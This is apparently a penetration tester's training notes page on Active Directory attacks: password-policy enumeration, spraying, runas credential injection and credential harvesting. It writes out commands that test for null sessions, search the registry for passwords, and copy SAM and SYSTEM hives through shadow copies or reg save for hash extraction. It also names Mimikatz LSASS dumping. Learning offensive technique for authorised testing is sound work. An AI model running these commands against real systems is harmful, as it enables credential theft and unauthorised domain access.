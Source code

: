 # Enumerating Password Policies
- [[Enum4Linux]]
- [[CrackMapExec]]
- [[RPCclient]]

All of these tools rely on an SMB Null session to work if we do not already have domain credentials. From Windows we can try

```shell
net use \\<DC>\ipc$ "" /u:"" # Test if SMB null sessions are allowed 
```

- [[LDAPSearch]]
- [[PowerView]]

LDAPSearch uses an LDAP Anonymous Bind session to enumerate password policy. 

```shell
ldapsearch -h 172.16.5.5 -x -b "DC=INLANEFREIGHT,DC=LOCAL" -s sub "*" | grep -m 1 -B 10 pwdHistoryLength
```

From Windows is even easier.

```shell
net accounts
```

# Password Spraying
Many different toolsets can be used for this. It is covered in more detail here: [[Cyber/RedTeamVault/Techniques/Password Attacks|Password Attacks]]
- [[MailSniper]]
- [[SprayingToolkit]]
- [[CrackMapExec]]
- [[Hydra]]

# Credential Injection
## Runas
```powershell
runas.exe /netonly /user:<domain>\<username> cmd.exe
```

With credential access and a Windows machine you can connect to the domain and use the Microsoft Management Console to enumerate machines and users in the environment. 

# Credential Harvesting
- Keylogging
	- [[Meterpreter]]
- Cleartext Credentials
	- Command history
	- Config files
	- Backup files
	- Shared files
	- Registry
		- `reg query <HKLM/HKCU> /f password /t REG_SZ /s
	- Source code
- SAM
	- [[Meterpreter]] hashdump 
	- Volume Shadow Copy
```powershell
wmic shadowcopy call create C:\
vssadmin list shadows

copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\sam C:\users\Administrator\Desktop\sam

copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\system C:\users\Administrator\Desktop\system
```
- Registry Hives
```powershell
reg save HKLM\sam C:\users\Administrator\Desktop\sam-reg
reg save HKLM\system C:\users\Administrator\Desktop\system-reg
# From here you can use impacket-secretsDump to read the hashes out. 
```
- LSASS
[[Mimikatz]] can dump and unprotect LSASS using sekurlsa and mimidrv.sys. 
